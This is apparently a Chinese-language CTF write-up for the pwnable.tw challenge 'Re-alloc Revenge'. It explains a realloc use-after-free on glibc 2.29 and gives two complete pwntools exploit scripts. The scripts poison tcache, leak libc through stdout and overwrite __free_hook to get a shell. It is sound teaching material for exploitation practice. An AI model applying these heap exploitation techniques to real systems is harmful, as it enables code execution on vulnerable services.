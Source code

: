 ```yaml
---
title: Re-alloc-Revenge
date: 2021-05-30 23:49:43
tags:
---
```

Re-alloc Revenge in pwnable.tw
<!--more-->
# Prologue

realloc-revenge是realloc那题的一个加强版，主要逻辑不变，在allocate里面的realloc变成了malloc，保护全开，依然是2.29的libc。最佳我做到的应该是1/16，只需要猜stdout的半个字节。

# Tricks

漏洞点是realloc在设定size为0时执行free但是指针不清空所有有UAF有几个组合技巧。

本文的伪代码第一个参数为指针的idx，第二个参数为size，第三个参数是写入内容。

## Modify Arbitrary Address

一共就两个可用指针，malloc最大0x78，想要控制任意地址就需要利用realloc的切割。

```python
malloc(0,0x78)
realloc(0,0)
realloc(0,0x78,p64(Arbitrary Address))
malloc(1,0x78)
realloc(1,0x28)
free(1)
malloc(1,0x78,Paylaod)
```

## Fill  tcache

填满tcache需要6个chunk，要求是尽可能只用掉一个size的list，因为如果用切割那么会填满2个而我们后面还有为了清空指针切割两次的操作会用到 `0x80→0x40*2→0x20*2`。可以使用 `realloc-expand`来搞定。

```python
for x in range(7):
    add(0,0x28)
    realloc(0,0x68)
    free(0)
add(0,0x28)
realloc(0,0x68)
add(1,0x18)
free(0)
```

## Edit

这个也不算什么组合。。就是正常的realloc为0之后realloc原来的大小就可以看成是edit了。

# Solution

因为这题我走了些弯路所以有比较直接的1/256的做法和比较绕圈圈的1/16做法。先讲1/16的做法。

## 1/16

要想1/16所堆绝对不能猜，也就是不能用管理tcache的结构体。只能靠填满tcache然后用consolidate来获得一个smallbin。前文的Tricks中已经讲了如何填满tcache所以后面要做的是在menu等待输入的时候输入 `'1'*0x400` 就可以触发。之后比烦需要改两次，一次是把tcache劫持指向获得的smallbin，第二次是把smallbin用前面说到的 `Modify Arbitrary Address` 来partial write smallbin的fd(此处猜1/16)。接着IO_LEAK，之后控制free_hook+get shell，写了70多行。

```python
from pwn import *
context.arch='amd64'
context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("ice: ",str(c))
def add(idx,size,c="A"):
    cmd(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",c)
def realloc(idx,size,c="A"):
    cmd(2)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    if(size>0):
        p.sendafter(":",c)
def free(idx):
    cmd(3)
    p.sendlineafter(":",str(idx))
p=remote("chall.pwnable.tw",10310)
#p=process('./pwn')
try:
    add(0,0x28)
    free(0)
    for x in range(6):
        add(0,0x18)
        realloc(0,0x78)
        free(0)
    add(0,0x18)
    realloc(0,0x78)
    add(1,0x18)
    realloc(1,0x78)
    free(1)
    free(0)
    cmd("1"*0x400)
    add(0,0x78)
    realloc(0,0)
    realloc(0,0x28,b'\x90')
    add(1,0x78)
    realloc(1,0x28)
    free(1)
    add(1,0x58)
    realloc(1,0x58,b'\x60\x37')
    realloc(0,0x28,b'\0'*0x10)
    free(0)
    add(0,0x78)
    realloc(0,0x28)
    free(0)
    add(0,0x78,p64(0xfbad1800)+b'\0'*0x18)
    p.read(0x58)
    base=u64(p.read(8))-(0x7ffff7fc1560-0x7ffff7ddb000)
    log.warning(hex(base))
    context.log_level='debug'
    realloc(1,0x28,b'\0'*0x28)
    free(1)
    add(1,0x68)
    realloc(1,0)
    realloc(1,0x18)
    free(1)
    add(1,0x68,b'\0'*0x18+p64(0x71)+p64(0x1e75a8-8+base))
    free(1)
    add(1,0x48)
    free(1)
    add(1,0x48,b'/bin/sh\0'+p64(0x52fd0+base))
    free(1)
    p.interactive()
except Exception:
    p.close()
```

## 1/256

这个方法比较容易想到，就是先猜1/16控制tcache的结构体，之后因为可以随意edit所以就可以随意把chunk放进unsortedbin之类的地方。之后再edit一次把目标获得+partial write，之后就可以IO_LEAK了，后面没什么区别思路也比较直接，不过需要1/256。

```python
from pwn import *
context.arch='amd64'
context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("ice: ",str(c))
def add(idx,size,c="A"):
    cmd(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",c)
def realloc(idx,size,c="A"):
    cmd(2)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    if(size>0):
        p.sendafter(":",c)
def free(idx):
    cmd(3)
    p.sendlineafter(":",str(idx))
#p=remote("chall.pwnable.tw",10310)
p=process('./pwn')
try:
    add(0,0x38)
    add(1,0x38)
    free(1)
    realloc(0,0)
    realloc(0,0x38,'\x10\x90')
    add(1,0x38)
    realloc(1,0x18)
    free(1)
    add(1,0x38,'\0'*0x1d+'\xff'*0x1)
    realloc(1,0x58,'\0')
    realloc(0,0x18,'\0'*0x18)
    free(0)
    realloc(1,0x78,'\0'*0x60+'\x60\x37')
    #gdb.attach(p)
    add(0,0x58,p64(0x1800)+b'\0'*0x18)
    context.log_level='debug'
    p.read(0x58)
    base=u64(p.read(8))-(0x7ffff7fc1560-0x7ffff7ddb000)
    log.warning(hex(base))
    realloc(1,0x78,b'\0'*0x60+p64(base+0x1e75a8-8))
    free(1)
    add(1,0x58,b'/bin/sh\0'+p64(0x52fd0+base))
    free(1)
    p.interactive()
except Exception:
    p.close
```

# Epilogue

这题过程中我发现了我之前一直认识错误的东西，我以为IO LEAK需要1/4096的概率（因为我3年前第一次做的时候关了aslr导致以为要写一个字节，后面就定式思维了），其实main_arena后面不远处就是stdout，所以有些情况下不需要多写那个字节，前面说的1/16还有1/256也不是严格的，因为load的地址随机化也有影响：具体是需要乘上系数 `7/16`，因为 unsorted pointer 的offset是0x1e4ca0 而stdout的offset是0x1e5760。

发现自己傻逼了3年。